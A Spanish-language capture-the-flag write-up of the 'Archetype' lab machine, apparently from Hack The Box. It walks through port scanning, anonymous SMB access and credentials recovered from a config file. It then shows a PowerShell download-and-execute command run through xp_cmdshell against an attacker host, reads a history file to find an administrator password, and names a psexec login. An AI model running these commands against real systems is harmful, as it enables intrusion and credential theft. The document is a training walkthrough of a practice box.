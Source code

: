 # Archetype
## Initial Scan
```
135/tcp   open  msrpc       Microsoft Windows RPC
139/tcp   open  netbios-ssn Microsoft Windows netbios-ssn
1433/tcp  open  ms-sql-s    Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2020-08-26T19:30:28
|_Not valid after:  2050-08-26T19:30:28
|_ssl-date: 2020-08-26T22:10:34+00:00; +15m20s from scanner time.
5985/tcp  open  http        Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http        Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc       Microsoft Windows RPC
49665/tcp open  msrpc       Microsoft Windows RPC
49666/tcp open  msrpc       Microsoft Windows RPC
49667/tcp open  msrpc       Microsoft Windows RPC
49668/tcp open  msrpc       Microsoft Windows RPC
49669/tcp open  msrpc       Microsoft Windows RPC
```
## Enum
### SMB
#### Shares
```
smbclient -N -L 10.10.10.27

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
```
Accedamos a backups
```
smbclient -N \\\\10.10.10.27\\backups
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Jan 20 13:20:57 2020
  ..                                  D        0  Mon Jan 20 13:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 13:23:02 2020

		10328063 blocks of size 4096. 8248883 blocks available
smb: \> get prod.dtsConfig
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (1,0 KiloBytes/sec) (average 1,0 KiloBytes/sec)
```
En el archivo tenemoss un par de user:pass
```
Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc
```
### MSS SQL
Para conevtarnos usaremos el mssqlclient.py de la suite impacket
```
mssqlclient.py 'ARCHETYPE/sql_svc:M3g4c0rp123@10.10.10.27' -windows-auth
```
Bien con esto tenemos un RCE ya que el server nos permite ejecutar comandos de CMD 
```
     lcd {path}                 - changes the current local directory to {path}
     exit                       - terminates the server process (and this session)
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd
```
## Exploit
Subimos una shell en el servidor mediante el siguiente comando 
```
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.20/shell.ps1\");"
```
## Privesc

Podemos acceder al historial de PowerShell
```
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt 
```
Podemos ver las contraseñas hardcodeadas
```
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
```
Con esto solo nos queda logearnos como administrador, usaremos para ello usaremos la utilidad psexec.py de la suite de impacket
